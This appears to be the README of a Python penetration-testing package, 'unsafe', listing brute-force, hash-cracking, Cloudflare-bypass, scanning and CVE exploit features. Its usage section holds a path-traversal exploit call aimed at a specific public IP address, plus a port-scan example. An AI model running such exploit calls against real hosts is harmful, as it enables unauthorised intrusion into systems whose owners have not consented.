 ![PyPI](https://img.shields.io/pypi/v/unsafe?style=for-the-badge)
![Daily Downloads](https://img.shields.io/pypi/dd/unsafe?style=for-the-badge)
![Weekly Downloads](https://img.shields.io/pypi/dw/unsafe?style=for-the-badge)
![Monthly Downloads](https://img.shields.io/pypi/dm/unsafe?style=for-the-badge)



# Unsafe (Advanced Penetration Testing Module)

Aiming to become the best package available for hacking and security in Python.

- Author : Ahur4
  - [Telegram Channel](https://t.me/Ahura_Rahmani)
  - [Telegram Pv](https://t.me/Ahur4)
# Installation
```bash
pip install unsafe
```
# Features

- [x] **BruteForce**
  - [x] Admin Finder
  - [x] FileManager Finder
  - [x] Cloudflare Bypasser
  - [x] Wordpress Plugin Finder
- [x] **Cryptography**
  - [x] Decrypt
  - [x] Encrypt
  - [x] Hash
  - [x] Crack Hash
- [x] **Exploits**
  - [x] [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)
  - [x] [CVE-2024-7313](https://nvd.nist.gov/vuln/detail/CVE-2024-7313)
  - [x] [CVE-2024-7339](https://nvd.nist.gov/vuln/detail/CVE-2024-7339)
  - [x] [CVE-2024-7928](https://nvd.nist.gov/vuln/detail/CVE-2024-7928)
  - [x] Add more in the future.
- [x] Forensic
  - [x] Image Metadata
  - [x] PDF Metadata
  - [x] Audio Metadata
- [x] Network
  - [x] MacAddress Lookup
  - [x] Proxy Tester
  - [x] Port Scanner
  - [x] Proxy Extractor
- [x] Web
  - [x] Search Engine ( For GoogleDorking )
  - [x] Crawler
  - [x] Xss Scanner
  - [x] SQL Injection Scanner

## Usage
Exploit Sample
```python
from unsafe import exploits

penetration_tester = exploits.CVE_2024_7928(
    url="http://47.105.229.158:9001",
    path="/index/ajax/lang",
    key="lang",
    value="../../application/database",
)
result = penetration_tester.check_vuln()
if result is not None:
    print("Target is vulnerable !")
    print("\n".join([f"{k} : {v}" for k, v in result.items()]))
else:
    print("Target is not vulnerable !")
```

Mac Address lookup/Port scanner
```python
from unsafe import network

# macaddress lookup
mac_address = "00:00:5e:00:53:af"
lookup = network.mac_address_lookup(mac=mac_address)
print(lookup)

# port scanning
ports = [80, 443, 21, 27017, 9002]
ip = "127.0.0.1"
open_ports = network.port_scanner(host=ip, ports=ports)
print(open_ports)
```
### [More Examples on Github](https://github.com/ahur4/unsafe/tree/main/example)
# New Features : Coming Soon...